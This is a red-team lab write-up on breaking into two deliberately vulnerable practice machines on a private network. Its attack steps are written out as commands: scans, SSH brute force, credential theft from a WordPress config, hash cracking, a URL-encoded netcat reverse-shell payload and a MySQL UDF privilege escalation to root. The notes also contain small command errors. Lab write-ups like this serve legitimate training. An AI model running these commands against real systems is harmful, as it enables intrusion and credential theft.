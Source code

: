 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sC -sV 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 11:24 PDT
Nmap scan report for raven.local (192.168.1.110)
Host is up (0.00073s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33174/tcp   status
|   100024  1          41697/udp   status
|   100024  1          43643/tcp6  status
|_  100024  1          46476/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH on Port 22 verison 6.7p1
  - HTTP Apache Server on Port 80  version 2.4.10  
  - RPC on Port 111 
  - SMBD on Port 139 version 3.x -4.x
  - SMBD on Port 445 version 4.2.14

The following vulnerabilities were identified on target 1:
- Target 1
  - Weak Passwords
    
   - Easy to crack and guess  
  
  - Exposed MYSQL credentials inside of file
  
  - User is able to run Python as Root 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  -  flag1{b9bbcb33e11b80be759c4e844862482d} 
    - Used google inspect element to find the flag hidden in the code


  flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
  
  I used WPSCAN to Enumerate user Michael and Steven 
  
  Command:  `WPSCAN -url 192.168.1.110 --enumerate u`
  
  ![wp-scan](/Images/WP-scan.png)
   
   - Used  basic Brute force to SSH into Michael's user
   - Weak Password used (michael)
      
     Command:  `
      ssh michael@192.168.1.110
      `
      
    -found flag inside of `/var/www/html/ `
    -screenshot here
    
    
   -  flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
   - Foound exposed mysql credentials inside of /var/www/html/wordpress/wp-config.php

![exposed sql server creds](/Images/sqlcreds.png)

    - mysql -u root -p
    - Found user password hashes after running:
      - select * from wp_users; 
      
![user password hashes](/Images/hashes.png)

    - cracked password hashes with john 
 
 ![john](Images/john.png)
 
    - Found flag3 after running
     select * from wp_posts;
  
  ![flag1-3](Images/flag31.png)
  
    
   - flag4:715dea6c055b9fe3337544932f2941ce}
   - logged into steven with password pink367 
  
   - ran sudo -l to see stevens permissions
   
   
    
    - We can run python as sudo so we can create shell as root with python
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
    -sudo python -c 'import pty; pty.spawn("/bin/sh")'
    - screen shot 
     
     
    ## Target 2
    
    ###Enumeration
    
    - nmap -sC -sV 192.168.1.115
    
    - nitko -C all -h 192.168.1.115 
   
  ## The following vulnerabilities were identified on target 2:

   - Public facing web pages giving away system version and potential exploits
    
   - Easy to crack and guess  
   
   - Version is sensitive to backdoor exploit
  
  - Exposed MYSQL credentials inside of file
  
  - SQL is sensitive to UDF Dynamic Library Priveledge Escalation E-DB:1518 https://www.exploit-db.com/exploits/1518
  
  ### Exploitation
  
  #### flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    
  First I enumerated directories with Gobuster 
  
  
  Then I found a vendor directory and found a flag inside ofthe PATH file
  
  - flag2{6a8ed560f0b5358ecf844108048eb337}
    -found information on version
    -screenshot 
    -found information on cves 
    -usew the backdoor exploit on the phpmailer 
    -gainer reverse shell on netcat 
      -used a url encoded reverse shell
      -cmd=nc%20<192.168.1.115>%204444%20-e%20/bin/bash
      -screenshot 
      -traversed directories and found flag2
    
  -flag 3 flag3{a0f568aa9de277887f37730d71520d9b}
  -find /var/www -type f -iname 'flag*'
  -this leads us to a png file 
  - we setup a simple http server insid the directory of the flagto download to the file to my attacking machine
  - python -m SimpleHTTPServer 8080 
  - wget http://192.168.1.115/flag3 

 ### Priviledge Escalation
   - `flag4{df2bc5e951d91581467bb9a2a8ff4425}`
   - `signed into mysql with credentials from last activity`
   - `enumerated the mysql for version number`
   - after running linenum and outside research I foudn the machine is vulnerable to udf dynamic library exploit 1518.c
   - `searchsploit –m 1518.c`
   - `gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc`
   - setup python simple server to transfer 1518.so payload to ovictim machine
    - `Python -m SimpleHTTPServer`
    - transfer into /tmp directory
   - `mysql -u root -p`
   - `use mysql; create table poo(line blob);`
   - `insert into poo values(load_file('/tmp/1518.so'));`
   - `select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';`
   - `create function do_system returns integer soname '1518.so';`
   - `select do_system('chmod u+s /usr/bin/find');`
   - now we head back to the /tmp directory
   - ```touch raj
     find raj –exec "whoami" \;
     find raj –exec "/bin/sh" \;
     cd /root
      ls
     cat flag4.txt`
   
